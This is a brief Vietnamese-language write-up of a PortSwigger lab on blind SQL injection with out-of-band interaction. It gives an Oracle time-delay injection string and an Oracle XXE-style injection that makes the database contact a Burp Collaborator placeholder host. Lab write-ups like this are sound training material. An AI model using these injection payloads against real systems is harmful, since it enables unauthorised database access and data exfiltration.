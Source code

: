 # [Lab: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

Lỗ hổng: Blind SQLi, sử dụng oob

1. Tìm kiếm lỗ hổng blind sqli dựa vào time delay:
- oracle: `TrackingId='+OR+'1'%3d'1'+UNION+SELECT+CASE+WHEN+('1'%3d'1')+THEN+'a'||dbms_pipe.receive_message(('a'),100)+ELSE+NULL+END+FROM+dual--;`
- ...
Không kích hoạt time delay với payload nào cả
2. Kích hoạt OOB với từng kiểu db:
- Mở collaborator client và chọn `copy to clipboard`
- oracle: `TrackingId='+OR+'1'%3d'1'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--;`
- ...
Nhận được phản hồi tới colab từ kiểu oracle sql => Lab Solved